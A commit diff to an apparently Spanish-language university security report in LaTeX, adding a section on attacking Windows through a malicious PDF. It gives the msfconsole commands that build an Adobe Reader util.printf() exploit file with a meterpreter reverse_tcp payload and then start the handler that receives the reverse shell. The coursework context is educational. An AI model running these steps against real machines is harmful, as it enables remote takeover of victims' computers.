

Before and after one commit to LucianoFromTrelew/ARyS2018, a LaTeX document (tp1/informe/informe.tex): part of page 8 of 9 before the commit and two parts of pages 8 and 9 of 11 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Agregar ataques a Windor al informe

```diff
--- a/tp1/informe/informe.tex
+++ b/tp1/informe/informe.tex
@@ -164,10 +166,28 @@ Una vez instalada la aplicación en el dispositivo Android al cual se desea atac
     \caption{Conexión desde \texttt{msfconsole} a un dispositivo Android}
 \end{figure}
 
+\subsection{Windows}
 
+\emph{Basado en ejemplo aterior, como realizaría el mismo ataque contra un equipo Microsoft Windows. Puede utilizar un archivo PDF como vector de ataque}
 
+Dentro de la suite de programas de Adobe, uno de los más usado es su lector de PDFs, \textbf{Adobe Reader}. Este programa posee varias vulnerabilidades de las cuales uno se puede aprovechar para inyectar código malicioso en un archivo PDF. De las vulnerabilidades disponibles, a continuación se mostrará cómo explotar dos de ellas disponibles en Metasploit.
 
+La primera de ellas, se trata de un \emph{desbordamiento del buffer} (\emph{buffer overflow}) de la pila de funciones de JavaScript con la función \texttt{util.printf()} \autocite{JSStackBufferOverflow}. Para inyectar el código en el archivo PDF se debe ejecutar los siguientes comandos en la consola de \texttt{msfconsole}:
 
+\begin{itemize}
+    \item \texttt{use exploit/windows/fileformat/adobe\_utilprintf}
+    \item \texttt{set FILENAME <NOMBRE\_DEL\_ARCHIVO>.pdf}
+    \item \texttt{set payload windows/meterpreter/reverse\_tcp}
+    \item \texttt{set LHOST <IP>}
+    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>}
+    \item \texttt{exploit}
+\end{itemize}
 
+Como se puede ver en los comandos, se está agregando un \emph{payload} que establece una conexión TCP con una computadora que estará esperando tal conexión. De esta forma, al igual que con el ataque a un dispositivo Android, establecemos una \emph{shell reversa}.
 
+Una vez creado el archivo PDF y abierto en la máquina que será la víctima, se deben realizar los mismos pasos que en el ataque a Android para conectarse con el dispositivo, pero cambiando el \emph{payload}
 
+\begin{itemize}
+    \item \texttt{use exploit/multi/handler}
+    \item \texttt{set payload windows/meterpreter/reverse\_tcp}
+    \item \texttt{set LHOST <IP>}
```
Also changed, not shown: tp1/informe/references.bib (+15 -2 lines), tp1/informe/informe.pdf, tp1/informe/informe.tex (20 more changed lines).
